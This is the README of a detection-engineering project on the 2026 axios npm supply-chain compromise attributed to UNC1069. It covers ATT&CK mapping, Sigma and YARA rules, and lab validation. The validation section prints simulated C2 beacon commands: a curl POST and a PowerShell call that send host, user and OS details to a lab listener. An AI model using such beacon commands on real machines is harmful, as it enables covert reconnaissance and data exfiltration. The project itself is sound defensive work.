# DPRK detection playbook

This project focuses on a single documented software supply chain intrusion and
follows the process of turning publicly reported TTPs (tactics, techniques, and
procedures) into practical detections. Rather than covering every aspect of the
campaign, the emphasis is on detection engineering, including ATT&CK (Adversarial
Tactics, Techniques, and Common Knowledge) mapping, rule development, and
validation.

The anchor is the March 2026 compromise of the axios npm package, attributed by
Google Threat Intelligence Group to a North Korea linked actor tracked as UNC1069.
Around that single incident sits the broader Contagious Interview campaign
(also tracked as Famous Chollima), which has targeted developers since 2023. 
Using both gives the project depth on one incident and breadth across a pattern, so 
the detections in this project focus on the underlying technique rather than 
campaign specific indicators.

## What's real and what's lab

| Real attack component | What's simulated in this project | What it explicitly does not do |
|---|---|---|
| WAVESHAPER.V2 RAT, delivered via the SILKBELL dropper (UNC1069, axios compromise) | `02-simulation/custom/postinstall-callback-simulator.js` | No malware code, no persistence, no credential access. Logs what a real stealer would target as plain text, spawns one harmless echo, makes one HTTP call to a listener on the same machine |
| Malicious git hook, part of the broader Contagious Interview pattern | `02-simulation/custom/git-hook-simulator.sh` | Same, logs intent, one local call, nothing else |
| The attacker's actual C2 infrastructure | `02-simulation/custom/local-test-listener.py` and a Caldera server bound to the host-only network interface (192.168.56.1) | Never leaves the lab environment. The Caldera operation used a VirtualBox host-only network with the server on the Mac host and Sandcat agents on the Ubuntu VM (192.168.56.2) and Windows 11 VM (192.168.56.3). No traffic left the lab. |
| The real npm registry compromise and the maintainer social engineering that enabled it | Not simulated | This project starts after initial access, at the point malicious code is already running on a developer's machine, not before |

Everything under "what's simulated" ran on a disposable VM. Nothing here touched
the real npm registry, any real North Korea linked infrastructure, or any actual
malware sample.

## The anchor incident

On March 31, 2026, UNC1069 gained publish access to the axios npm package, one of
the most widely used HTTP libraries in the JavaScript ecosystem, and published two
backdoored versions carrying a cross platform remote access trojan. The malicious
versions were live for roughly three hours before being caught, but the blast
radius reached a GitHub Actions workflow inside OpenAI's own macOS code signing
pipeline.

The initial access wasn't a code vulnerability, it was social engineering aimed at
the maintainer. The attackers impersonated the founder of a legitimate company,
stood up a convincingly branded fake Slack workspace, and scheduled a video call to
build trust before the actual compromise happened.

The root cause is the part most relevant to a detection role. Axios had already
adopted OIDC (OpenID Connect) based publishing with SLSA (Supply-chain Levels for
Software Artifacts) provenance attestations, the modern, more secure approach.
When both authentication methods were present, npm defaulted to the legacy token,
effectively bypassing the intended provenance protections. This project focuses on
that credential precedence issue because it illustrates how a modern publishing
workflow can still be undermined by legacy credentials. It also wasn't an isolated
stunt — GTIG (Google Threat Intelligence Group) reporting estimates UNC1069 activity
has seeded roughly 1,700 malicious packages across npm (Node Package Manager), PyPI
(Python Package Index), Go, and Rust since January 2025.

## The broader pattern

Contagious Interview (also tracked as DeceptiveDevelopment, Gwisin Gang, and Famous
Chollima, among other names) is a North Korea aligned group active since 2023 that
runs both espionage and financially motivated operations against developers and
crypto workers across Windows, Linux, and macOS. Its malware chain, BeaverTail into
InvisibleFerret, more recently consolidated into a strain called OtterCookie, is the
broader family UNC1069 sits inside.

Reporting from May 2026 documented the group abusing git pre-commit and post-checkout
hooks alongside Jenkins CI/CD (Continuous Integration/Continuous Deployment) pipelines,
turning the developer workflow itself into the infection point rather than relying
only on `npm install`. A campaign called PolinRider surfaced in July 2026, publishing 
over a hundred malicious packages across public repositories. Reporting has also 
documented attackers adapting to newer npm security controls. One Lazarus linked campaign 
hid a remote access toolkit inside fake Rollup polyfill packages that executed at import 
time instead of install time, avoiding npm's newer install-time script blocking defaults.

This project aims at broad patterns rather than single incidents to make these detections technique-level instead of simple indicator matches. While a rule tied to a specific C2 
domain expires the moment attackers change it, behavior-based rules like spotting a package script spawning an unexpected process remain effective across future campaigns regardless
of the tools used.

## Threat model

The full technique mapping is in `01-research/attack-mapping.md`, ten rows covering
initial access through the credential precedence root cause, execution, command and
control, and the adjacent DPRK (Democratic People's Republic of Korea) IT worker
insider access pattern. Several rows are marked as gaps rather than mapped to a rule
that doesn't really cover them. C2 (command and control) and time-based execution evasion 
both require infrastructure this project doesn't build, such as long-term stateful 
monitoring and behavioral baselining. Consequently, these are listed as future work 
rather than left unaddressed.

## Detection approach

Two Sigma rules. One flags a script interpreter or shell spawned as a child process
of npm, npx, yarn, or node, the pattern behind malicious lifecycle script execution.
The other flags process execution referencing a `.git/hooks` path, covering the
newer hook based infection vector. Both include documented false positives: 
native module builds for the lifecycle script rule and legitimate pre-commit tooling 
for the Git hook rule. Each rule documents expected false positives so the assumptions 
and limitations are clear.

Two YARA rules, deliberately different in kind.
One matches a known malicious package name from the Axios campaign specifically,
IOC (indicator of compromise) based, short shelf life by design. The other is a heuristic 
for package.json files combining an install time lifecycle script with network calls or 
common obfuscation patterns, technique level, not tied to any one campaign. Keeping both 
in the repo, clearly labeled, is meant to make the IOC versus technique tradeoff visible 
rather than picking one silently.

One static check script, a Python scanner for package.json files that flags
lifecycle scripts and known malicious package names, and skips the node_modules
directory so it's usable in a real CI (continuous integration) job.

## Validation results

The validation process focused on confirming that the simulated behaviors produced
the telemetry expected by the detection logic rather than attempting to recreate
the full intrusion. Validation happened in three distinct phases: simulation runs
to confirm the rules fire on intended behavior, a Caldera C2 operation to exercise
the command and control technique more realistically, and a false positive baseline
to establish whether the rules over-trigger on normal development activity.

### Windows lifecycle script simulation

The Windows simulation used `postinstall-callback-simulator.js` to represent a malicious 
npm lifecycle script. During npm install, normal npm execution launched node.exe, which 
in turn spawned cmd.exe to execute the simulator.




The telemetry reader (`05-validation/check_telemetry.ps1`) correctly identified these 
child process relationships and marked the expected events as matches.





Observed execution chain:

```text
PowerShell
└── node.exe (npm install)
    └── cmd.exe
        └── node postinstall-callback-simulator.js
            └── cmd.exe /c echo ...
```

The rule generated matches only after `node.exe` spawned additional command execution 
associated with the simulated lifecycle script. Normal npm startup activity, including 
execution of `npm-cli.js` and `npm-prefix.js`, appeared in the telemetry but did not 
satisfy the detection criteria.

The simulation produced four rule matches across two test runs, corresponding to
the expected child process creation events generated by the simulator. No matches
were observed during the normal npm initialization steps preceding execution of
the simulated lifecycle script.

The rule cannot distinguish malicious from benign at this level on its own. The
first match in each pair, node.exe spawning cmd.exe to run whatever a lifecycle
script's command line says, is npm's own ordinary mechanism for running any
lifecycle script, present regardless of intent. A package with no lifecycle
scripts never triggers it, a package with any lifecycle script always does. That's
reflected in the rule's `falsepositives` field and its `level`, lowered from medium
to low, a bare hit here means "a lifecycle script ran," not "something malicious
happened."

### Git hook simulation (Ubuntu)

The Linux simulation exercised the Git hook detection using `git-hook-simulator.sh`.





Auditd captured each stage of the workflow, including copying the simulated hook into 
`.git/hooks/pre-commit`, making it executable with `chmod +x`, and executing it during 
a Git operation. The resulting records contained the executable path, working directory, 
and command-line arguments expected by the Git hook Sigma rule.

The captured telemetry confirmed that the fields required by the rule were present in 
the simulated audit records.

### Caldera C2 beacon simulation (Ubuntu and Windows)

A third simulation was added after the initial validation pass to exercise the C2
(command and control) callback technique more realistically. Rather than running a
standalone script against a loopback listener, this simulation used MITRE Caldera
(a MITRE ATT&CK-based adversary emulation platform) to replicate the
operator-to-implant task delivery loop that characterizes how WAVESHAPER.V2 and
BeaverTail actually behave once installed on a developer machine.

The setup used a VirtualBox host-only network connecting the Mac host
(192.168.56.1) to the Ubuntu VM (192.168.56.2) and Windows 11 VM (192.168.56.3).
The Caldera server ran on the Mac. Sandcat agents were deployed on both VMs and
communicated back to the Caldera server over HTTP on port 8888. A custom ability
(BeaverTail HTTP C2 Beacon, T1071.001) was built in Caldera to replicate the
HTTP (Hypertext Transfer Protocol) POST callback pattern documented in reporting
on WAVESHAPER.V2, collecting host, user, OS (operating system), and working
directory before posting the payload to the local listener.



Observed execution chain on Ubuntu, captured by auditd:

```text
Sandcat agent (pid=135108)
  └── sh -c curl ... (pid=137616)
        ├── hostname (recon)
        └── curl -s -X POST http://192.168.56.1:8787/callback
              -d {"host": "dev-vm", "user": "devuser", "os": "Linux dev-vm 7.0.0-28-generic aarch64", "cwd": "/home/devuser"}
```



Observed execution chain on Windows, captured by Sysmon:

```text
Sandcat agent splunkd.exe (pid=3128)
  └── powershell.exe -ExecutionPolicy Bypass -C "curl ... $(hostname) ... $(whoami)" (pid=4232)
        ├── HOSTNAME.EXE (pid=3936)
        └── whoami.exe (pid=1920)
```







Sysmon Event ID 1 captured the full parent/child chain with command line arguments.
Event ID 3 captured the network connection from splunkd.exe (192.168.56.3 →
192.168.56.1:8888). The ability ran the Linux sh command via PowerShell, which
resolved $(hostname) and $(whoami) as native Windows executables, producing
discrete child process events for each recon command.

Reading the Sysmon record in plain terms: PowerShell created a process called
splunkd.exe with the server and group arguments visible in the CommandLine field.
The parent/child relationship is explicit in the record — ParentImage and
ParentCommandLine are populated directly, so you can see the full chain without
needing to correlate by PID the way auditd requires. On the auditd side, the same
chain requires matching the ppid of the child process against the pid of the parent
across separate SYSCALL records. Both approaches get you to the same answer.

The local listener confirmed receipt of the payload on both runs.



The comparison
between auditd (syscall-level execve and connect records) and Sysmon (Event ID 1
process create, Event ID 3 network, Event ID 11 file create) illustrates how the
same behavior surfaces differently across telemetry sources, and why the Sigma
rules are written against normalized field names rather than source-specific ones.

This is the first simulation in this project to exercise a real C2 task delivery
loop rather than a standalone script. The Caldera operation adds a layer of
realism the custom scripts alone don't provide: the agent is a persistent process
beaconing on an interval, receiving tasks from an operator-controlled server, and
executing them on the target. That matches the actual implant behavior more closely
than a one-shot script does.

### False positive baseline

After confirming the rules fire on intended behavior, the next question is whether
they also fire on things they shouldn't. The false positive baseline was run on
2026-07-22 on the Ubuntu VM, using auditd as the telemetry source and a custom
parser (check-fp.py) to apply the rule conditions against the captured log.

The session covered approximately ten minutes of active development activity
designed to exercise the specific process patterns both rules are built to detect.
Rather than waiting for organic activity to accumulate, the session deliberately
targeted the highest-risk scenarios documented in each rule's falsepositives field.

For Rule 1, that meant installing packages across three categories: native modules
that historically trigger node-gyp compilation and shell out during install
(bcrypt, sqlite3, canvas), packages with documented postinstall scripts that run
at install time (husky, puppeteer), and clean packages with no lifecycle scripts
that should produce no signal at all (lodash, express, axios). For Rule 2, it
meant running git commits in a freshly initialized repository.





auditd captured all process activity throughout the session.



check-fp.py parsed
the ausearch output and applied the same parent-child logic the Sigma rules encode:
for Rule 1, any process whose parent is npm, node, yarn, or pnpm and whose image
is a shell or interpreter; for Rule 2, any process whose command line contains
`.git/hooks`.

Both rules produced zero hits.



**What a Rule 1 hit would have looked like in the auditd log:**

If bcrypt or sqlite3 had triggered node-gyp during installation, the auditd log
would have contained a SYSCALL record where the ppid matched the node process
running npm install, and the exe field pointed to a shell:

```text
type=SYSCALL msg=audit(...): ppid=21610 pid=21700 exe="/bin/sh" comm="sh"
type=EXECVE msg=audit(...): argc=3 a0="sh" a1="-c" a2="node-gyp rebuild"
```

In other words, the node process running `npm install bcrypt` (pid 21610) spawned
a shell (pid 21700) to run node-gyp. That parent-child relationship, node spawning
sh, is exactly what Rule 1 is looking for. The ppid of the shell matching the pid
of the node process is the link that makes it a detection. That record never
appeared. check-fp.py found no SYSCALL records where a shell's ppid matched any
node process during the session.

**What a Rule 2 hit would have looked like:**

If a git hook had been installed and fired during a commit, the auditd log would
have contained an EXECVE record with `.git/hooks` in the arguments:

```text
type=EXECVE msg=audit(...): argc=3 a0="/usr/bin/env" a1="bash" a2=".git/hooks/pre-commit"
```

Put simply, git invoked bash to run the pre-commit hook. The string
`.git/hooks/pre-commit` in the command arguments is what Rule 2 matches on.
That string never appeared in the log because the test repository had no hooks
installed. A repository using husky or pre-commit would produce exactly this
record on every commit, which is the expected false positive source documented
in the rule.

For Rule 1, the zero result has a specific explanation worth documenting. The
native module packages (bcrypt, sqlite3, canvas) are the packages most likely to
trigger the rule in theory, because they require compiled C extensions and
historically invoked node-gyp, which shells out to the system compiler. None of
them did. All three installed via prebuilt binaries fetched directly from the
package registry, bypassing compilation entirely. This is the modern default
behavior on well-maintained packages: prebuilt binaries are provided for common
platforms and architectures, and node-gyp only runs as a fallback when no prebuilt
binary matches the current environment. On this platform (Ubuntu aarch64, node
v22, npm 10), prebuilt binaries were available for all three packages.

This is a meaningful finding rather than a null result. The false positives field
in the rule correctly identifies node-gyp as the expected FP source. The baseline
confirms that risk is lower than it would have been on older toolchains or less
common architectures. The tuning decision is to leave the rule unchanged and
document the platform dependency, a follow-up test forcing source compilation
(by removing prebuilt binaries or testing on a platform without them) would be
needed before adding a node-gyp exclusion condition, because the FP behavior
hasn't been directly observed yet.

For Rule 2, the zero result is expected and less informative. The rule fires on
CommandLine containing `.git/hooks`, which only appears in the process record when
a hook is actually invoked. A repository with no hooks installed produces no
hook-related process events, so there was nothing for the rule to match. The
expected FP behavior, a legitimate pre-commit linter or commit-msg validator
triggering the rule, requires a repository with hooks configured. Installing
husky or pre-commit in the test repo and committing again would be the right
follow-up. That test is documented as a gap rather than explicitly excluded.

One observation from the session worth noting separately: the ausearch output
contained significant background noise from a Docker healthcheck
(`pg_isready -U reportcreator`) firing every two seconds throughout the session.
This is unrelated to either rule and was filtered at query time. In a production
deployment, auditd rules scoped to specific UIDs or working directories would
reduce this kind of noise at the collection layer rather than requiring post-hoc
filtering. That's a deployment consideration rather than a rule quality issue,
but it's the kind of thing that matters when moving from a lab to a real
environment.

The static package scanner successfully detected synthetic package manifests
containing:

- install-time lifecycle scripts
- known malicious package names used for testing

Directories under `node_modules` were skipped as intended to reduce unnecessary
scanning.

### YARA validation

The YARA rules were compiled successfully and tested against synthetic package samples.

The IOC-based rule matched the expected test artifact, while the heuristic rule matched 
package manifests containing the intended combinations of lifecycle scripts, networking 
behavior, and simple obfuscation patterns.

These tests confirm that the rules compile successfully and behave as expected against 
representative synthetic samples. They should not be considered a substitute for validation 
against production telemetry.

Overall, the validation demonstrated that the simulated behaviors generated the
expected telemetry, the Sigma rules matched the intended process relationships,
the YARA rules compiled and matched their synthetic samples, the static package
scanner identified the expected package characteristics, the Caldera C2 operation
confirmed that a real agent-to-server task delivery loop produces telemetry
consistent with the documented BeaverTail callback pattern, and the false positive
baseline confirmed that both rules produce zero hits against normal development
activity across eight npm packages and two git commits. While these results are
limited to controlled lab environments, they provide a more complete initial
validation than simulation alone: the rules fire on what they're supposed to fire
on, and they don't fire on the normal activity most likely to trigger them.

### Limitations

The validation performed for this project was intentionally limited to controlled
simulations running inside disposable lab environments.

The simulations reproduce observable behaviors rather than the original malware
and do not exercise persistence, credential theft, privilege escalation, or
communication with external infrastructure. The Caldera simulation extended the
lab boundary to a host-only network between two VMs, but remained fully isolated
from the internet and from any real attacker infrastructure.

The false positive baseline covered the highest-risk scenarios documented in each
rule but has two remaining gaps. Rule 1 was not tested on a platform that forces
source compilation, so the node-gyp FP behavior documented in the rule has not
been directly observed — only confirmed absent on a modern toolchain with prebuilt
binaries available. Rule 2 was not tested against a repository with hooks
installed, so the expected FP behavior from legitimate pre-commit tooling has not
been observed either. Both gaps are documented in `false-positives.md` rather
than left implicit.

The Sigma rules were validated against telemetry generated by the simulations and
the FP baseline, but they have not been tested against enterprise scale datasets
or diverse production environments. As a result, the documented false positive
guidance should be treated as an initial assessment rather than a complete
evaluation. The baseline provides a starting point and a documented methodology;
it is not a substitute for running the rules against production traffic.

This project is intended to demonstrate the workflow of researching a documented
intrusion, mapping TTPs to ATT&CK, developing detections, validating those
detections against controlled telemetry, and establishing an initial false positive
baseline. It is not intended to reproduce the original malware or serve as a
substitute for testing in a production environment.


## Sources

Full bibliography in `01-research/sources.md`.
